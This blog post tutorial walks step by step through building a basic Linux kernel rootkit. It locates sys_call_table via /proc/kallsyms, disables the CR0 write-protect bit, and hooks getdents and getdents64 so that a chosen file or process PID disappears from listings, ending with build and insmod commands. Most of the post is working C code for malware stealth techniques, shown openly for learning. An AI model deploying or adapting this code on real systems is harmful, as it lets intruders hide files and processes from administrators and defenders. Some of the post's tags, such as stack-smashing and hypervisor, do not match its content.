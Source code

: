 ```yaml
---
layout: post
title: "Linux Kernel Rootkit Basics"
author: "Grant"
tags: [hypervisor, stack-smashing, buffer overflow, security, kernel, linux]
---
```


Rootkits are an advanced form of malware that leverage elevated privileges to hide themselves from the operating system. In this post we will go over how to write a basic rootkit that is capable of hiding files and processes on Linux.

# Listing files in a directory
<hr>
<br>

Let's look at a simple C program that can list files in a directory.

```c
#include <stdio.h>
#include <dirent.h>

int main() {
	DIR *d = opendir(".");
	struct dirent *dire;
	while ((dire = readdir(d)) != NULL) {
		printf("%s\n", dire->d_name);
	}
	closedir(d);
}
```

We can see that the `readdir()` function is called to get the files in a folder, however we're interested in going as low-level as possible to see what we need to hook in the kernel to manipulate the listed files for all programs. A good way of doing this is to use the `strace` tool to log all of the syscalls a program invokes.


`strace ./a.out`

```bash
munmap(0x7fa11faa0000, 133984)          = 0
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
fstat(3, {st_mode=S_IFDIR|S_ISVTX|0777, st_size=12288, ...}) = 0
brk(NULL)                               = 0x55ce40037000
brk(0x55ce40058000)                     = 0x55ce40058000
getdents(3, /* 28 entries */, 32768)    = 1376
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 4), ...}) = 0
write(1, ".\n", 2.)                      = 2
write(1, "..\n", 3..)                     = 3
```

Several syscalls are invoked by our program and right before we start seeing some recognized files printed out (".", ".."), `getdents()` is called. This is the syscall
that is used to get directory entries on Linux and therefore is what we want to hook to hide files.

# Hooking Syscalls
<hr>
<br>

## Syscall Table
In Linux, there is an [array in the kernel that contains pointers to all of the syscalls.](https://elixir.bootlin.com/linux/v5.5.7/source/arch/x86/entry/syscall_64.c#L27)

`asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1]`

The index into this array corresponds to the syscall number which you can [look up here](https://syscalls.kernelgrok.com/). Because of this, it is quite easy to hook a syscall function as we simply need to replace the function pointer for that syscall number to point to a function we define.

```c
// Pointer to sys_call_table in memory
static unsigned long *syscall_table = (unsigned long *)0xdeadbeef;
syscall_table[__NR_getdents] = hooked_getdents;
```

## Modifying Syscall Table

Since the memory region of the kernel containing the `sys_call_table` pointer is marked read-only, we can't modify it (even as ring 0) without first changing the permissions. To do this, we have to toggle the [WP bit (bit 16) in the CR0 register](https://en.wikipedia.org/wiki/Control_register#CR0).

```c
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
write_cr0(read_cr0() | 0x10000); //Restore write protection
```

## Getting The Address 

Finally, we need to get the address of the `sys_call_table` array inside the kernel. There are numerous ways to do this, but we will use a simple one below.

The `/proc/kallsyms` file contains a mapping of kernel symbols to addresses and thankfully includes the `sys_call_table` symbol we are interested in. We can see that in our instance,
it is located at `0xffffffff9fe00240`.

 **Note**: this will change across systems and even reboots as the kernel memory map is randomized for security reasons.

```bash
vagrant@ubuntu-bionic:~$ sudo cat /proc/kallsyms  | grep sys_call_table
ffffffff9fe00240 R sys_call_table
ffffffff9fe01600 R ia32_sys_call_table
```

Another, and perhaps easier way, is to use the `kallsyms_lookup_name()` function which returns a pointer to the symbol passed as a parameter. We can find the address of `sys_call_table` with the following code:

```c
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table");
```

## Putting it all together

Combining the steps above, in order to hook a syscall the steps will be roughly as follows:

1. Get the address of the `sys_call_table` pointer
2. Allow write access to kernel memory
3. Hook syscall function
4. Restore write protection to kernel memory


# Hiding Files
<hr>
<br>

As we saw above, the `getdents()` and `getdents64()` syscalls are used to get the the files in a directory, so we will want to hook these to hide files.

```c
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table"); //Lookup table entry point
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
original_getdents = (void*)table[__NR_getdents];
original_getdents64 = (void*)table[__NR_getdents64];

table[__NR_getdents] = (unsigned long) my_getdents; //Hook getdents with our function
table[__NR_getdents64] = (unsigned long) my_getdents64;
write_cr0(read_cr0() | 0x10000); //Restore write protection
```

Now we will define our own function that implements `getdents()` and hides the file `secret.txt` by removing it from the list of files.

```c
asmlinkage int my_getdents(unsigned int fd, struct linux_dirent* dirp, 
	unsigned int count)
{
  int ret;
  struct linux_dirent* cur = dirp;
  int pos = 0;

  // Call original getdents
  ret = original_getdents(fd, dirp, count); 
  while (pos < ret) {

    if (is_prefix(cur->d_name, "secret.txt")) { // Insert your check here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
    }
    pos += cur->d_reclen;
    cur = (struct linux_dirent*) ((char*)dirp + pos);
  }
  return ret;
}
```

# Hiding Processes
<hr>
<br>

On Linux, process information is stored in the `/proc/{pid}` folder and tools like `ps` read these entries to report on what processes are running. Since we already know how to hide files, all we need to do is hide the file that is the entry inside the `/proc` folder and it will not show up when `ps` is called!

The quickest way to do this is substitute the filename check from above with the PID:

```c
if (is_prefix(cur->d_name, "5048")) { // Insert your PID here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
}
```

However this might hide some other files unintentionally, so it might be wise to check the full path.
# Demo
<hr>
<br>

Try it yourself!

```bash
vagrant init gfoudree/rootkit-dev --box-version 1
vagrant up
vagrant ssh
```

Now build and install the kernel module:

```bash
make
sudo insmod file_hider.ko
```

You should now notice that `secret.txt` is missing from the files in the current directory. Remove the kernel module `sudo rmmod file_hider` and observe that it appears again.